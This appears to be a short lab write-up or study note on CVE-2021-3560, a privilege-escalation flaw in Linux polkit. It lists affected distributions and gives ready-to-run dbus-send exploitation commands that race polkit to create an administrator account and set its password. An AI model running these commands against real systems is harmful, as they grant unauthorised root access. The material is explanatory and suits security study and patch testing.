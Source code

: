 # CVE-2021-3560

[Kevin Backhouse](https://github.blog/author/kevinbackhouse/) discovered a seven year old privilege escalation vulnerability (since designated CVE-2021-3560) in the Linux [polkit](https://gitlab.freedesktop.org/polkit/polkit/) utility. It is system service running whenever you see a GUI `Authentication Required` and is part of the Linux authorisation system.

```bash
pkexec # not sudo to interact with polkit
```

|Distribution|Vulnerable?|
|---|---|
|RHEL 7|No|
|RHEL 8|[Yes](https://access.redhat.com/security/cve/CVE-2021-3560)|
|Fedora 20 (or earlier)|No|
|Fedora 21 (or later)|[Yes](https://bugzilla.redhat.com/show_bug.cgi?id=1967424)|
|Debian 10 (“buster”)|No|
|Debian testing (“bullseye”)|[Yes](https://security-tracker.debian.org/tracker/CVE-2021-3560)|
|Ubuntu 18.04|No|
|Ubuntu 20.04|[Yes](https://ubuntu.com/security/CVE-2021-3560)|

Exploitation Steps:
```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1

dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/UserUSER_ID org.freedesktop.Accounts.User.SetPassword string:'PASSWORD_HASH' string:'Ask the pentester'


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!

openssl passwd -6 Expl01ted

dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```

## References

[THM Polkit CVE-2021-3560](https://tryhackme.com/room/polkit)
[polkit](https://gitlab.freedesktop.org/polkit/polkit/)
[Kevin Backhouse](https://github.blog/author/kevinbackhouse/)
[Github.Blog - Kevin Backhouse Blog](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)